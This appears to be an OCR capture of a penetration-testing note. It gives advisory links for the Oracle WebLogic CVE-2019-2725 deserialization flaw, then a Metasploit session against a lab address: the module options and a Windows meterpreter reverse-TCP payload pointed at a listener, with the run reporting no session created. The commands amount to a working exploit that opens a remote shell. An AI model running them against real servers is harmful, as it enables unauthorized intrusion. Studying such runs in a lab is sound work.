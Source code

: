 ```bash
  http://www.cnvd.org.cn/webinfo/show/4999
  https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html
  https://twitter.com/F5Labs/status/1120822404568244224

```

```bash
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 192.168.111.80
rhosts => 192.168.111.80
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost 192.168.111.128
lhost => 192.168.111.128
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set target Windows
target => Windows
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > options 

Module options (exploit/multi/misc/weblogic_deserialize_asyncresponseservice):

   Name       Current Setting               Required  Description
   ----       ---------------               --------  -----------
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.111.80                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/U
                                                      sing-Metasploit
   RPORT      7001                          yes       The target port (TCP)
   SSL        false                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /_async/AsyncResponseService  yes       URL to AsyncResponseService
   VHOST                                    no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.111.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows


msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run

[*] Started reverse TCP handler on 192.168.111.128:4444 
[*] Generating payload...
[*] Sending payload...
[*] Exploit completed, but no session was created.

```
